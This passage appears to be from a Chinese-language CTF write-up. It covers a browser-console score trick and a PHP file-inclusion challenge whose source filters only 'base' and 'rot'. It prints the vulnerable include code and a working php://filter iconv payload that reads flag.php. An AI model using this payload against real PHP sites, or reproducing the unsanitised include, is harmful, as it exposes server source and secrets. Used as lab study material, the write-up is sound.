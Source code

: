 ```
var gameScore = 10000000;
gameover(); 
```

回车然后得到flag
 ![在这里插入图片描述](assets/1c36fa3443694d5d9846b5a1e3062438.png)

### include 0。0(php://filter伪协议读取源码)

源码

```php
 <?php
highlight_file(__FILE__);
// FLAG in the flag.php
$file = $_GET['file'];
if(isset($file) && !preg_match('/base|rot/i',$file)){
    @include($file);
}else{
    die("nope");
}
?> 
```

简单的文件包含，这里过滤了常见的转换过滤器base和rot
 我们可以用`convert.iconv.UTF-8.UTF-16`，应该也可以大小写绕过（更正，没法，/i）
 payload

```
?file=php://filter/read=convert.iconv.UTF-8.UTF-16/resource=flag.php
```

得到flag

